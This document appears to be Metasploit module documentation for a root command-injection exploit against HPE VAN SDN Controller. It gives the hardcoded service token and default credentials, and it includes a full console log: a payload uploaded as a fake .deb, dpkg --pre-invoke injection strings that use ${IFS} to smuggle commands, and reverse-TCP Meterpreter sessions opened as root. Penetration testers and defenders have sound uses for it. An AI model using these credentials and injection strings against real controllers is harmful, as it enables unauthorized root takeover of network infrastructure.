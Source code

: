 ## Intro

This module exploits a hardcoded service token or default credentials in
HPE VAN SDN Controller <= 2.7.18.0503 to execute a payload as root.

A root command injection was discovered in the uninstall action's name
parameter, obviating the need to use sudo for privilege escalation.

If the service token option `TOKEN` is blank, `USERNAME` and `PASSWORD`
will be used for authentication. An additional login request will be
sent.

## Setup

Follow <http://h22208.www2.hpe.com/eginfolib/networking/docs/sdn/sdnc2_6/5998-8473install/content/s_download_sw.html>.

Tested on 2.7.18.0503.

## Options

**TOKEN**

Set this to the service token. Defaults to `AuroraSdnToken37`.

**USERNAME**

Set this to the service username. Defaults to `sdn`.

**PASSWORD**

Set this to the service password. Defaults to `skyline`.

## Usage

```
msf5 > use exploit/linux/http/hp_van_sdn_cmd_inject
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set target Linux Dropper
target => Linux Dropper
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Authenticating with service token AuroraSdnToken37
[*] Uploading payload as fake .deb
[+] Uploaded /var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1.deb
[*] Renaming payload and executing it
[*] Injecting dpkg -r --pre-invoke=mv${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1.deb${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1${IFS}&&${IFS}chmod${IFS}+x${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1
[*] Injecting dpkg -r --pre-invoke=/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1
[*] Sending stage (812100 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.102:34468) at 2018-07-03 18:23:08 -0500
[+] Deleted /var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.56.102
OS           : Debian 8 (Linux 4.4.0-2-amd64-hlinux)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
Background session 1? [y/N]
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set token ""
token =>
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Authenticating with creds sdn:skyline
[+] Retrieved auth token 26d7b53a73a9455eae63c346321bfe31
[*] Uploading payload as fake .deb
[+] Uploaded /var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l.deb
[*] Renaming payload and executing it
[*] Injecting dpkg -r --pre-invoke=mv${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l.deb${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l${IFS}&&${IFS}chmod${IFS}+x${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l
[*] Injecting dpkg -r --pre-invoke=/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l
[*] Sending stage (812100 bytes) to 192.168.56.102
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.102:34474) at 2018-07-03 18:24:47 -0500
[+] Deleted /var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l

meterpreter >
```
